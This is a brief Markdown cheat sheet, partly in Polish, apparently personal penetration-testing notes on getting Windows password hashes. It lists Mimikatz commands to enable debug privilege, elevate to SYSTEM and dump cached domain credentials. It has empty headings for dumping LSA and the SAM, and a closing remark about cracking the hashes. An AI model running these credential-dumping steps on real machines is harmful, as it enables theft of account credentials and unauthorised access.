 ## Get windows hashes
### Mimikatz
1. Uruchom Mimikatz jako admin
2. Podnieś uprawnienia: ``privilege::debug``
3. Podnosimy ponownie. Cache wymaga uprawnień NT\Authority: ``token::elevate``  
``Token Id  : 0``  
``User name :``  
``SID name  : NT AUTHORITY\SYSTEM``
4. Pobieramy hashe: ``lsadump::cache``
### Dump LSA (task manager)
### Get SAM




### Co zrobić z hashem?
Cracking.  
Not for pass the hash.
